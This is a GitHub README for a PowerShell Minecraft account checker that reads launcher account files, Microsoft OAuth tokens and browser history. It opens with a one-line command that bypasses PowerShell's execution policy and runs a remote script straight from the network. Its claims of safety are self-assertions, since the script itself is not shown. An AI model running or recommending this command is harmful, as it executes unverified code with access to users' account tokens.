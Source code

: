 - **`powershell -Command "Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass; Invoke-Expression (Invoke-RestMethod 'https://raw.githubusercontent.com/OnlyDehBest/alts-checker/main/alts-checker.ps1')"`**

**🛠️ Minecraft Alts Checker Tool**
A PowerShell utility for analyzing Minecraft accounts stored locally by various launchers, with JWT token decoding capabilities.

🔍 **Features**
 - 🕵️‍♂️ **Account Analysis**
   - Multi-Launcher Support:
      - TLauncher
      - Official Minecraft Launcher
      - MultiMC
      - Badlion Client
      - Lunar Client
   - Microsoft OAuth Token Detection (`accessToken/id_token`)
   - JWT Token Decoding with detailed claims inspection
   - Account Type Identification (Premium/Cracked)

🔎 **Forensic Capabilities**
   - Comprehensive File Parsing:
      - `%APPDATA%\.minecraft\TlauncherProfiles.json`
      - `%APPDATA%\.minecraft\launcher_accounts.json`
      - `%APPDATA%\.minecraft\usernamecache.json`
      - `%APPDATA%\.minecraft\usercache.json`
      - MultiMC `accounts.json`
      - Badlion Client `settings.json`
      - Lunar Client `accounts.json`
   - Advanced Config Search across multiple launcher directories
   - Deleted File Recovery using USN journal analysis
   - Registry Analysis for installed Minecraft applications

📋 **Account Information Display**
 - For each found account, shows:
      - Username/Display Name
      - UUID
      - Account type (Microsoft/Mojang/Cracked)
      - Microsoft token presence (✅/❌)
      - Premium status
      - Last accessed timestamp
      - Source launcher

🔐 **Advanced JWT Decoding**
 - Built-in `Decode-Jwt` function:
      - Accepts JWT tokens (`accessToken `or` id_token`)
      - Splits and base64-decodes the payload
      - Returns readable JSON claims in table format
      - Token expiry detection and validation
      - Detailed claims analysis (sub, iss, aud, etc.)

🖥️ **System Analysis**
 - Process Monitoring for Minecraft-related executables
      - Windows Event Log analysis
      - Browser History scanning (Chrome/Firefox)
      - Registry Inspection for installed launchers

📊 **Reporting**
 - Interactive HTML Report with filtering capabilities
      - CSV Export for all found accounts
      - Backup System for Minecraft configurations
      - Account Summary with statistics

🚀 **New in v3.0**
      - Beautiful animated ASCII logo with color effects
      - Enhanced account detection for more launchers
      - Comprehensive system analysis tools
      - Professional HTML reporting
      - Data export capabilities (CSV)
      - Configuration backup system
      - Windows event log analysis
      - Browser history scanning
      - Registry inspection
      - Deleted file recovery
      - Multi-language support

⚠️ **Requirements**
      - Windows PowerShell 5.1+
      - Administrative privileges (for full forensic capabilities)
      - Minecraft or alternative launcher installation

📜 **Legal Notice**
 - This tool is intended solely for:
      - Personal use
      - Debugging purposes
      - Educational research
      - Account recovery
      - Prohibited Uses:
      - Violating any terms of service
      - Accessing unauthorized accounts
      - Conducting illegal activities

**`The author disclaims all responsibility for misuse of this software.`**

🛡️ **Security Note**
 - The script:
      - Runs locally without external data transmission
      - Requests minimal necessary permissions
      - Provides transparent account inspection
      - Includes no malicious code
      - Respects user privacy

**`Not affiliated with Mojang Studios or Microsoft. Minecraft is a trademark of Mojang Studios.`**

👥 **Credits**
 - **`Developed by usnjournal. & onlynelchilling`**
